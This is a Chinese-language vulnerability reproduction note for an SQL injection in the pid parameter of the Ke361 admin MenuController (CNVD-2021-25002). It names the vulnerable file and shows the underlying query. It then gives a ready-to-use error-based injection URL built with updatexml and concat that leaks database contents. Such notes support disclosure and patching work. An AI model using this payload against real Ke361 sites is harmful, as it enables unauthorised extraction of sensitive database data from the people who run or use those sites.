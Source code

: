 # 

# Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`

![image-20220518153611158](./images/202205181536242.png)

Get 传参 pid 传入SQL语句

```
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153624882](./images/202205181536951.png)
